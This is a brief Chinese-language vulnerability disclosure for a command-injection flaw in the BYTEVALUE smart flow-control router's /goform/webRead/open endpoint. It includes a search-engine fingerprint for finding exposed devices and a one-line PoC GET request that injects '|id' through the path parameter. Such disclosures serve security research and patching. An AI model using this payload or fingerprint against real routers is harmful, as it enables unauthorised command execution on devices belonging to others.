

# 百为通达 智能流控路由器 open 远程命令执行漏洞

## 漏洞描述

BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。百为智能流控路由器 /goform/webRead/open 路由存在有回显的命令注入漏洞。

## 漏洞影响

百为通达 智能流控路由器

## 网络测绘

```
"BYTEVALUE 智能流控路由器"
```

## 漏洞复现

登陆页面


poc

```
GET /goform/webRead/open/?path=|id HTTP/1.1
Host:
```

